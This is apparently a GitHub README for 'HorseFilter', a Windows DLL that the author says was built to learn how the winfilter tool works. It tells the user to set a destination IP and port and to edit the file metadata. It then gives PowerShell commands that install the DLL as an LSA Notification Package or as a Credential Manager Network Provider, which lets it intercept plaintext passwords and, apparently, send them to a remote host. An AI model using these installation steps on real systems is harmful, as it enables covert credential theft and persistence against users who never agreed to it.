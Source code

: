 # HorseFilter
- i basically wanted to learn how [winfilter](https://github.com/kindtime/winfilter) works so i made this
- update destination port and IP macros in `shared/horsefilter.h`
- update file metadata in `shared/horsefilter.rc`
- i recommend compiling on linux with mingw-w64


## LSA Notification Package
1. place DLL anywhere in PATH
2. append DLL name (no extension) to registry key
3. reboot
```ps1
$DLLName = "horsefilter"

$Path = "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$Value = "Notification Packages"

$Current = Get-ItemProperty -Path $Path -Name $Value
$New = $Current."$Value" + $DLLName

Set-ItemProperty -Path $Path -Name $Value -Value $New
```

## Credential Manager Network Provider
1. place DLL in a known path
2. add it to the network provider order key
3. create a network provider service key
<!-- 4. reboot -->

```ps1
$DLLName = "horsefilter"
$DLLPath = "%SystemRoot%\System32\" + $DLLName + ".dll"

$OrderPath = "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order"
$OrderValue = "ProviderOrder"

$CurrentOrder = Get-ItemProperty -Path $OrderPath -Name $OrderValue
$NewOrder = $CurrentOrder."$OrderValue" + "," + $DLLName

Set-ItemProperty -Path $OrderPath -Name $OrderValue -Value $NewOrder

$ServicePath = "HKLM:\SYSTEM\CurrentControlSet\Services\" + $DLLName
New-Item -Path $ServicePath
# New-ItemProperty -Path $ServicePath -Name "Group" -Value "NetworkProvider"

$ServicePath += "\NetworkProvider"
New-Item -Path $ServicePath
 
New-ItemProperty -Path $ServicePath -Name "Class" -Value 0x00000002 # WN_CREDENTIAL_CLASS
New-ItemProperty -Path $ServicePath -Name "Name" -Value $DLLName
New-ItemProperty -Path $ServicePath -Name "ProviderPath" -PropertyType ExpandString -Value $DLLPath
```